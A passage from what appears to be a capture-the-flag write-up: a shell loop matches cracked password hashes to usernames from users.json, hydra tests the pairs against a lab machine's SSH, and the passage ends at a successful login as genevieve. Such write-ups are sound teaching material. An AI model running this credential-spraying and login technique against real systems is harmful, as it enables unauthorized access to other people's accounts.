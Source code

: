 I’ll break that loop down:

  1. `cat cracked | while read c; do` \- Start a loop over each line in my cracked output. An example line looks like `254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet`.
  2. `hash=$(echo ${c} | cut -d: -f1);` \- Use `cut` to get just the hash part of the line, and save it as `hash.`
  3. `pass=$(echo $c | cut -d: -f2);` \- Do the same to save the password as `pass`.
  4. `username=$(grep ${hash} users.json | cut -d'"' -f2);` \- `grep` to find the line with the corresponding hash in the users.json file. The line will look like `"colleen": "d3792794c3143f7e04fd57dc8b085cd4",`. Then cut based on `"` and get the 2nd field, which is the username. Save that as `username`.
  5. `echo "${username}:${pass}";` \- Echo the username and password in the desired format.

### Hydra

Now I can use `hydra` to see if any of the 12 work as an SSH login, using the
`-C` flag, which takes a colon separated “login:pass” format, rather than the
`-L` and `-P` options. It finds I can successfully ssh as genevieve:

    
    
    root@kali# hydra -C user_pass ssh://10.10.10.86
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                
    
    Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 11:58:14
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                          
    [DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries, ~1 try per task
    [DATA] attacking ssh://10.10.10.86:22/
    [22][ssh] host: 10.10.10.86   login: genevieve   password: Princess1
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2018-10-29 11:58:17
    

### ssh Shell

I am now able to ssh in as genevieve:

    
    
    root@kali# ssh genevieve@10.10.10.86
    The authenticity of host '10.10.10.86 (10.10.10.86)' can't be established.
    ECDSA key fingerprint is SHA256:3gHAJvc1zomI4M6+oCp/3xrMyS6DMPbMFEGDbBO2Qso.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.10.10.86' (ECDSA) to the list of known hosts.
    genevieve@10.10.10.86's password: 
    Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-133-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    
    